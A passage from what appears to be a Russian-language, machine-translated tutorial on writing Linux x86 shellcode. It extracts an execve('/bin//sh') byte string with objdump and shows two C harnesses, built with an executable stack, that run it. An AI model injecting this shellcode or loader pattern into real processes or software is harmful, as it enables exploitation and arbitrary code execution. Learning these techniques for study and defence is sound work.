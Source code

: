 ```bash
 8049013:       b0 0b                   mov    al,0xb
 8049015:       cd 80                   int    0x80
```

**Примечание.** Существует несколько способов написания одного и того же шелл-кода, это всего лишь пример.

Я знаю, о чем вы думаете: «Эй, это не шеллкод, это исполняемый файл!», и вы правы! Это **ELF-** файл.

```bash
$ file execve
execve: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

Как мы собрались( `nasm`) и связанных ( `ld`) наш код, он содержится в ELF, но в реальном случае использования вы не внедряете файл ELF, поскольку исполняемый файл, на который вы нацеливаете, уже отображен в памяти, вам просто нужно ввести код.

Вы можете легко извлечь шелл-код, используя `objdump`и немного _баш-фу_ :


```bash
$ objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"
```

Теперь вы можете использовать эту строку или _шелл-код_ и внедрить его в процесс.

# загрузчика шеллкода 

Теперь предположим, что вы хотите протестировать свой шелл-код. Во-первых, нам нужно что-то для интерпретации нашего шелл-кода. Как вы знаете, шелл-код предназначен для внедрения в работающую программу, поскольку в нем нет функций, которые выполняются сами по себе, как в классическом ELF. Для этого можно использовать следующий фрагмент кода:

```c
// gcc -m32 -z execstack exec_shell.c -o exec_shell
#include <stdio.h>
#include <string.h>

unsigned char shell[] = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

main() {
  int (*ret)() = (int(*)())shell;
  ret();
}
```

Или этот, который немного отличается:

```c
// gcc -m32 -z execstack exec_shell.c -o exec_shell
char shellcode[] =
	"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";
 
int main(int argc, char **argv) {
	int *ret;
	ret = (int *)&ret + 2;  
	(*ret) = (int)shellcode;
}
```
